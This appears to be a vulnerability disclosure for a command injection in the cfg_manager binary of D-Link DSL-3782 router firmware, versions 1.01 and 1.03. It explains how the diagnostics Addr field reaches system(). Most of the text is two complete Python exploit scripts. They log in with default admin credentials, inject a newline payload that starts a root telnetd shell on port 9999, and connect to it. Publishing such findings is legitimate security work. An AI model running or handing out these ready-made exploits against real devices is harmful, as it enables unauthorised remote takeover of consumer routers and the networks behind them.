





Vendor of the products:　D-Link

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　DSL-3782 v1.01, DSL-3782 v1.03

# Command injection

## Code in cfg_manger



The binary program cfg_manager first calls *sprintf*, concatenates the string `"traceroute -n -m 10 -w 2 %s > /tmp/var/alpha_diag.tmp 2>&1"` with the value read from `Addr`, and then passes it to **byte_4C0160**. Then, cfg_manger runs the sub_474c78 function in another thread via *pthread_create*.



In the sub_474c78 function, **byte_4C0160** is executed as a parameter of *system*.

## In v1.01

### exp

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "./_DSL-3782_A1_EU_1.01_07282016.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"

def login():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    # url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1640832458081"
    url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1650704806457 "
    resp = s.get(url,headers=headers,timeout=10)
    print resp.text


def get_session_key():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None):
    # libc_base = input('libc_base:')
    cmd = "%0autelnetd -p 9999 -l /bin/sh%0aecho yab..."
    
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    params = {
        "Type":"p", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(cmd)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=100000)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    login()
    print '[*] Getting session key'
    sessionKey = get_session_key()
    print '[*] Sending payload'
    exp(sessionKey=sessionKey) 
    print '[*] Running Telnetd Service'
    print '[*] Opening Telnet Connection\n'
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')
```

### Attack effect




## In v1.03

In fact, the patch in v1.03 has very little impact on the command injection vulnerability I reported.

### exp

Now, the attacker needs to first log in to the router's management page to obtain the "*SESSIONID_AUTH*" field value. Then, the only thing he needs to do is to run the exploit script below with the "*SESSIONID_AUTH*" he just got.

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "../new/_DSL-3782_A1_EU_1.03_04042018.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"


def get_session_key(AUTH):
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" %AUTH
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None, AUTH=''):
    cmd = "%0autelnetd -p 9999%0a"
    
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" %AUTH
        }
    params = {
        "Type":"t", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(cmd),
        "SESSIONID_AUTH": urllib.unquote(AUTH)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=100000)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    print '[*] Getting session key'
    a = input() # input the SESSIONID_AUTH
    sessionKey = get_session_key(a)
    print '[*] Sending payload'
    exp(sessionKey=sessionKey, AUTH=a) 
    print '[*] Running Telnetd Service'
    print '[*] Opening Telnet Connection\n'
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

```

### Attack effect

The attacker:



The target:



